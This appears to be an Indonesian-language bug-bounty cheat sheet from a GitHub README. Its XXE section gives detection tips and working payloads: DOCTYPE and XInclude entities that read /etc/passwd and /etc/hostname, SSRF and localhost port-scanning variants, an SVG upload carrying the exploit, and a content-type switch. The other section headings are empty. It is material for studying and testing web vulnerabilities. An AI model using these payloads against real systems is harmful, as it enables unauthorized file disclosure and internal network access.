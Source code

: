 # VULNERABILITY :beetle:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- **Detection**
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (XML endpoint)
  - Cari web page yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- **Exploitation**
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
    ```
  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar`<br/>
      ```
    dimodif<br/>
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```    
- **Prevention**
  ```
  Disable DTD
  Disable entity saja
  ```
- **Online Resource**
  - 
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS

